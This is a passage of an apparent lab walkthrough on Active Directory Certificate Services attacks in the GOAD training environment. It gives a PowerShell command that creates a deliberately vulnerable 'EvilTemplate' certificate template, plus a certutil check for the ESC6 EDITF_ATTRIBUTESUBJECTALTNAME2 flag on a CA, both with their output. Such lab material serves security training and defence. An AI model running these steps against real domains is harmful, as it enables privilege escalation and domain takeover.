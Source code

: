 ### Certificate Template Creation

If you have GenericWrite on the Certificate Templates container in GOAD, create a new vulnerable template:

```bash
$templateDN = "CN=EvilTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"

# Template with dangerous settings for GOAD environment
New-ADObject -Name "EvilTemplate" -Type "pKICertificateTemplate" -Path "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -OtherAttributes @{
    'flags' = 131680
    'msPKI-Certificate-Name-Flag' = 1
    'msPKI-Enrollment-Flag' = 41
    'msPKI-Minimal-Key-Size' = 2048
    'msPKI-Private-Key-Flag' = 16842752
    'msPKI-Template-Schema-Version' = 2
    'pKIDefaultKeySpec' = 1
    'pKIExpirationPeriod' = ([byte[]](0x00,0x40,0x1E,0xA4,0xE8,0x65,0xFA,0xFF))
    'pKIExtendedKeyUsage' = @('1.3.6.1.5.5.7.3.2')
    'pKIKeyUsage' = ([byte[]](0x80,0x00))
    'pKIOverlapPeriod' = ([byte[]](0x00,0x80,0xA6,0x0A,0xFF,0xDE,0xFF,0xFF))
    'revision' = 100
}

ObjectGUID                : 8f3e2a1b-9c4d-4e5f-a6b7-c8d9e0f1a2b3
DistinguishedName         : CN=EvilTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local
Name                      : EvilTemplate
ObjectClass               : pKICertificateTemplate

# Template created successfully and ready for exploitation
```

## ESC6: EDITF_ATTRIBUTESUBJECTALTNAME2

ESC6 exploits the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on the CA, which allows SAN specification in any certificate request.

*For detailed information on this vulnerability and remediation steps, see Microsoft Learn's ["Edit vulnerable Certificate Authority setting (ESC6)"](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-edit-vulnerable-ca-setting) article.*

### Vulnerability Check

Let's check the GOAD CA configuration. Check if flag is enabled on ESSOS-CA:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -getreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\ESSOS-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags REG_DWORD = 0x144120 (1327392)

EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
EDITF_ATTRIBUTEENDDATE -- 20000 (131072)
EDITF_ATTRIBUTECA -- 4000 (16384)
EDITF_IGNOREREQUESTERGROUP -- 100000 (1048576)
CertUtil: -getreg command completed successfully.

# Flag 0x40000 (EDITF_ATTRIBUTESUBJECTALTNAME2) is present!
```
